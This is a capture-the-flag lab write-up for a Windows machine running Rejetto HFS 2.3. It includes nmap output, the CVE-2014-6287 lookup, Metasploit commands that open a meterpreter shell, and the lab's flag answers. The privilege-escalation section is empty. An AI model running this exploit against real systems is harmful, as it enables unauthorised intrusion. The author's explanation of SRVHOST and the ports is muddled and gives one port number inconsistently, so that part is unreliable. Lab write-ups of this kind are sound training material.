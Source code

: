 Task 1  Introduction
---------------------

In this room you will enumerate a Windows machine, gain initial access with Metasploit, use Powershell to further enumerate the machine and escalate your privileges to Administrator.

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

1. Who is the employee of the month?

picture Present in the port 80 webserver (hosted)

--> Bill Harper


Task 2  Initial Access
-----------------------

Scan the machine with nmap. What is the other port running a web server on?

```
PORT      STATE SERVICE            REASON  VERSION
80/tcp    open  http               syn-ack Microsoft IIS httpd 8.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack
| ssl-cert: Subject: commonName=steelmountain
| Issuer: commonName=steelmountain
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2021-07-08T20:51:28
| Not valid after:  2022-01-07T20:51:28
| MD5:   8709 a020 40c7 71ec 1907 0372 5df5 4657
| SHA-1: 3b81 38bf 7186 0a82 371c 3c1d 443a 9380 bb95 dc5e
| -----BEGIN CERTIFICATE-----
| MIIC3jCCAcagAwIBAgIQITncN5pTTpdHnXhGU++U6jANBgkqhkiG9w0BAQUFADAY
| MRYwFAYDVQQDEw1zdGVlbG1vdW50YWluMB4XDTIxMDcwODIwNTEyOFoXDTIyMDEw
| NzIwNTEyOFowGDEWMBQGA1UEAxMNc3RlZWxtb3VudGFpbjCCASIwDQYJKoZIhvcN
| AQEBBQADggEPADCCAQoCggEBALzk2LgS0GGlrXEskHH8pi0br2id1tecmaIZi93t
| O1lIGrM3iY+P1DUn7xNavZhf+Sn3AP/ON3b7KXPXk8IhWN4gEOdS4BMTrp1X8f/D
| XK2LmDBkbmQkt6MJxEYSut3mfFeLoXR86cofkJSjUzb65VFv79Jhx9LUVvkwRw7t
| uAKaFEzzWmw91TiEDveFyt7XzVUj3wh5QBtzhBhhNEXiMRDRZFYTycxUO8tVCsZ7
| +PYtFuXGqZN8+5564GOk3AusIa7BiCBnmL64gunwyJSowh/FmFBfSAdsYBR/2U7H
| GVLGfYSRboHogwSPkaxcM6BEBV0U2A2Brm72paCgNTT2rNsCAwEAAaMkMCIwEwYD
| VR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEBBQUAA4IB
| AQBZv4CI0Lo9rbjCpY97G3yi5h9eNyxpzgNhpcJlGUC1s5EqfxaTun/dMSA4wkHK
| AZPEJz2mqHS1FWijz0mhMPZoQtWmqiEKsheThAeeijt+zWFiiGBR/kh350qE953n
| UhBiyzIn5fnLIH/IdXkDX88dW59YLvcSh/T/I9I/SSEvHKVnxoK/cwK9jp67jMHx
| yJqYpnouqgRn9/6vCcdPJfyeAtUBPBBESn4zbZuqTmwEPGhKEQcCQ9k4WvCDioCI
| DIr/ee8g3iEXy0aegLrDpEFaQObbNzqGu/7HxUmzhE2EUCkab2APP5YsPUzL+afl
| LMp6NHY3HrfSLMx5V18P/bkh
|_-----END CERTIFICATE-----
|_ssl-date: 2021-07-09T21:01:01+00:00; -1s from scanner time.
8080/tcp  open  http               syn-ack HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              syn-ack Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack Microsoft Windows RPC
49163/tcp open  msrpc              syn-ack Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:28:8b:ec:85:33 (unknown)
| Names:
|   STEELMOUNTAIN<20>    Flags: <unique><active>
|   STEELMOUNTAIN<00>    Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
| Statistics:
|   02 28 8b ec 85 33 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 35667/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 24587/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 17430/udp): CLEAN (Failed to receive data)
|   Check 4 (port 39146/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-09T21:00:55
|_  start_date: 2021-07-09T20:51:22

```
--> 8080

2. Take a look at the other web server. What file server is running?

--> rejetto http file server

3. What is the CVE number to exploit this file server?

rejetto http file server: version 2.3

Used `searchsploit`

--> 2014-6287

4. Use Metasploit to get an initial shell. What is the user flag?

```
msfconsole -q
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <ip>
set RPORT 8080
exploit
```
Port = 8080 as webserver rejetto was running on port 8080

```
SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
SRVPORT    8080             yes       The local port to listen on.
```

> This exploit has three options: SRVHOST, SRVPORT, and URIPATH.

> 1. The _SRVHOST_ optionrefers to the IP address of your current computer (i.e. the one you are using to execute thea ttack) --> Actually for building the **C2 server**

> 2. The _SRVPORT_ option refers to the port you will use for the exploitation.

- In this case: srv port 8080 => i.e. we will create a C2 channel via port 8080 On which webserver is running.

see this:

![](pic1.jpeg?raw=true)

#### Up in this image, we can see the **meterpreter shell** was able to connect to victim ip on `port: 49401` which we havn't mentioned, done by metasploit it self, but why port **4901** ??


#### If in this case `SRVHOST` is made equal to `0.0.0.0` then we don't have to worry about that much as `0.0.0.0` means any address, but that doesn't mean victim address ( that would be absurd). Here any address means any address in the LAN network of the attacker. This the reason why _metasploit_ makes `0.0.0.0` as default value of `SRVHOST`

--> b04763b6fcf51fcd7c13abc7db4fd365


Task3: Privilege Escalation
------------------------------


